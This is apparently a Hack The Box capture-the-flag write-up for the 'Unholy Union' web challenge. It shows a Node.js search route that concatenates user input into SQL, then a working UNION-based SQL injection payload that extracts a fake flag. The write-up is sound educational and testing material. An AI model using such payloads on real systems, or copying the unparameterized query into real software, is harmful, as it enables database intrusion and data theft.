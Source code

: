 ```yaml
---
title: Unholy Union - Hack The Box
date: 2024-12-11
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Unholy Union 🎃

## Challenge description

On the outskirts of a forsaken town lies an abandoned warehouse, rumored to store more than just forgotten relics.
Locals speak of an unholy union within its database, where spectral data intertwines with the realm of the living.
Whispers tell of a cursed ledger that merges forbidden entries through mysterious queries. Some say that the warehouse's
inventory system responds to those who know how to merge the right requests. Can you brave the haunted inventory system
and unravel the ghostly union of data before the spirits corrupt the world beyond?

## Challenge overview

In this challenge, we are presented with a web application that features an inventory search function. The application
provides a debug option to view the SQL queries executed on the server, which opens the door to potential exploitation.

![Unholy Union - Overview](/ctf/hack-the-box/challenges/web/unholy-union/overview.png)

## Code Review

### `entrypoint.sh`

The `entrypoint.sh` script is responsible for initializing the database. It creates a `flag` table and inserts the
content of the `/flag.txt` file into it.

```sql
DROP DATABASE IF EXISTS halloween_invetory;
CREATE DATABASE IF NOT EXISTS halloween_invetory;

USE halloween_invetory;

CREATE TABLE IF NOT EXISTS flag (
    flag VARCHAR(255) NOT NULL
);

INSERT INTO flag(flag) VALUES("$(cat /flag.txt)");
```

#### Key Observations:

- The `flag` table stores the flag as a single entry.
- The flag is loaded directly from the `/flag.txt` file.

### `index.js`

The `index.js` file contains the core application logic, including the vulnerable search functionality.

```javascript
app.get("/search", async (req, res) => {
    const query = req.query.query ? req.query.query : "";
    let results = { status: null, message: null };

    try {
        let sqlQuery;

        if (query === "") {
            sqlQuery = "SELECT * FROM inventory";
        } else {
            sqlQuery = `SELECT * FROM inventory WHERE name LIKE '%${query}%'`;
        }

        const [rows] = await pool.query(sqlQuery);
        console.log("Query results:", rows);
        results.status = "success";
        results.message = rows;
    } catch (err) {
        console.error("Error executing query:", err.stack);
        results.status = "failed";
        results.message = err.message;
    }

    return res.json(results);
});
```

#### Vulnerability:

- **SQL Injection**: The `query` parameter is directly concatenated into the SQL statement without sanitization or
  prepared statements, leaving it vulnerable to SQL injection attacks.

## Exploitation

To exploit the SQL injection vulnerability, we can use a **UNION-based SQL injection** technique to extract data from
the `flag` table.

### Step 1: Understanding the Query Structure

The vulnerable query:

```sql
SELECT * FROM inventory WHERE name LIKE '%<query>%';
```

By injecting a malicious payload, we can manipulate the SQL query to retrieve data from the `flag` table. The goal is to
combine the `inventory` query with a `UNION` statement to fetch the flag.

### Step 2: Crafting the Payload

The crafted payload:

```sql
Z' UNION SELECT 1, (SELECT flag FROM flag), 3, 4, 5; -- -
```

::: info Payload Breakdown:

1. **`Z'`**: Closes the `LIKE` clause.
2. **`UNION SELECT`**: Combines the results of the original query with our injected query.
3. **`1, (SELECT flag FROM flag), 3, 4, 5`**: Fetches the flag value alongside dummy values to match the number of
  columns in the original query.
4. **`-- -`**: Comments out the rest of the SQL query to prevent syntax errors.

:::

### Step 3: Sending the Exploit

When the payload is sent as the `query` parameter, the response reveals the flag:

```json
[
    {
        "id": 1,
        "name": "HTB{f4k3_fl4g_f0r_t35t1ng}",
        "description": "3",
        "origin": "4",
        "created_at": "5"
    }
]
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

<ChallengeCard
    challengeType="web"
    challengeName="Unholy Union"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/809"
/>

## References

- [SQLi Series - Reading Files through SQL Injection - 08](https://0xshin.hashnode.dev/sqli-series-reading-files-through-sql-injection-08)
